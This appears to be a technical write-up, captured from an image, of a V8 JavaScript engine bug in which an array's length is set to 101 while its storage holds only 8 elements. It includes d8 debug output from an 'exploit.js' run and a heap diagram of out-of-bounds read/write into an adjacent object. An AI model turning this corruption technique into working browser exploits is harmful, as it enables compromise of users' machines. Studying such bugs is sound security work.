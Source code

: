 ```
if (i4 < 8) {
    // Don't grow the array
} else {
    // Grow the array to fit i4
}
// always update length to 101
arr.length = 101;
```

At runtime with `i4 = 0`:

- Check: `0 < 8` -> true, skip growing
- Capacity remains 8
- But length is set to **101**!

Result: Corrupted array with `length=101` but `capacity=8`

```bash
$ ./out/x64.release/d8 --allow-natives-syntax exploit.js
DebugPrint: 0x29720009116d: [JSArray]  # Normal (trigger=false)
 - length: 101
 - elements: 0x2972000911f5 <FixedDoubleArray[167]>  # Capacity extended to 167

DebugPrint: 0x2972000918b9: [JSArray]  # Corrupted (trigger=true)
 - length: 101                                       # <- Claims 101 elements
 - elements: 0x297200091871 <FixedDoubleArray[8]>   # <- Only has 8!
```

The corrupted array now has out-of-bounds (OOB) access: reading `arr[8]` through `arr[100]` accesses adjacent heap memory, enabling arbitrary read/write primitives.

```
V8 Heap Corruption:

Before:                              After (Corrupted):

+---------------------+            +---------------------+
| JSArray             |            | JSArray             |
+---------------------+            +---------------------+
| Map ptr             |            | Map ptr             |
| Properties          |            | Properties          |
| Elements ptr    ----+---+        | Elements ptr    ----+---+
| Length: 101         |   |        | Length: 101         |   |
+---------------------+   |        +---------------------+   |
                          |                                  |
                          v                                  v
        +---------------------------------+  +---------------------------------+
        | FixedDoubleArray[167]           |  | FixedDoubleArray[8]             |
        +---------------------------------+  +---------------------------------+
        | [0]: 13.37                      |  | [0]: 13.37                      |
        | [1-99]: the_hole_NaN            |  | [1-7]: the_hole_NaN             |
        | [100]: 13.37                    |  +---------------------------------+
        | [101-166]: the_hole_NaN         |              |
        +---------------------------------+              | arr[8-100] = OOB!
        Normal: capacity grown to 167                    v
                                            +---------------------------------+
                                            | Adjacent Object (victim)        |
                                            +---------------------------------+
                                            | Map ptr: 0x...01                |
                                            | Properties: 0x...02             |
                                            | .a = marker value               |
                                            | .b = marker value               |
                                            +---------------------------------+
                                                         |
                                                         | Read/write via
                                                         | corrupted[8-100]
```